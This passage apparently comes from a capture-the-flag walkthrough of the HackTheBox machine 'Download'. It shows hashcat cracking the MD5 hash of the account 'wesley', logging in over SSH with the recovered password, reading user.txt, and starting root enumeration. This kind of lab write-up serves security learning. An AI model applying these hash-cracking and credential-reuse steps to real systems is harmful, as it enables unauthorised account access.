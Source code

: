 I’ll try with basic MD5 (`-m 0`) and it cracks instantly:

```

$ hashcat -m 0 wesley.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
hashcat (v6.2.6) starting
...[snip]...
f88976c10af66915918945b9679b2bd3:dunkindonuts

```

#### SSH

That password works as wesley on Download over SSH:

```

oxdf@hacky$ sshpass -p dunkindonuts ssh wesley@download.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-155-generic x86_64)
...[snip]...
wesley@download:~$

```

And I get `user.txt`:

```

wesley@download:~$ cat user.txt
a38f00da************************

```

## Shell as root

### Enumeration

#### Home Directory / File System

There’s nothing else of interest in wesley’s home directory:

```

wesley@download:~$ ls -la
total 40
drwxr-xr-x 5 wesley wesley 4096 Jul 19 15:35 .
drwxr-xr-x 3 root   root   4096 Jul 19 15:35 ..
lrwxrwxrwx 1 root   root      9 Apr 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 wesley wesley  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 wesley wesley 3771 Feb 25  2020 .bashrc
drwx------ 2 wesley wesley 4096 Jul 19 15:35 .cache
drwxrwxr-x 3 wesley wesley 4096 Jul 19 15:35 .local
-rw-r--r-- 1 wesley wesley  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 Apr 21  2023 .psql_history -> /dev/null
drwx------ 2 wesley wesley 4096 Jul 19 15:35 .ssh
-rw-r----- 1 root   wesley   33 Nov  6 19:52 user.txt
-rw-r--r-- 1 wesley wesley   39 Jul 17 11:58 .vimrc

```
